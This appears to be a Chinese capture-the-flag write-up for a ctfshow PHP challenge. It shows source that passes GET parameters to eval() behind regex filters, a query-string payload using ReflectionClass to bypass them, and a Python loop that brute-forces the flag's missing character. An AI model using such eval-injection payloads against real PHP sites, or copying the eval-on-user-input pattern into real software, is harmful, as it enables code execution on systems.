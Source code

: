```php
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>
```

题目描述:修补100题非预期,替换0x2d

修补了上一题通过直接命令执行或者var_dump打印类的方法

我们可以尝试使用反射类的方法，利用题目给出的`('ctfshow')`来拼接打印类

payload:

```
?v1=1&v2=echo new Reflectionclass&v3=;
```

![image-20241202152406295](assets/image-20241202152406295.png)

这道题的flag少了一位，在得到的flag在替换掉0x2d后，再进行爆破即可得到flag

payload:

```python
a = "fa2a169a0x2da0820x2d40f30x2da5cd0x2d65ce0d29b42"
b = a.replace("0x2d","-")
hex = ["1","2","3","4","5","6","7","8","9","a","b","c","d","e"]
for i in hex:
    print("ctfshow{"+b+i+"}")
```
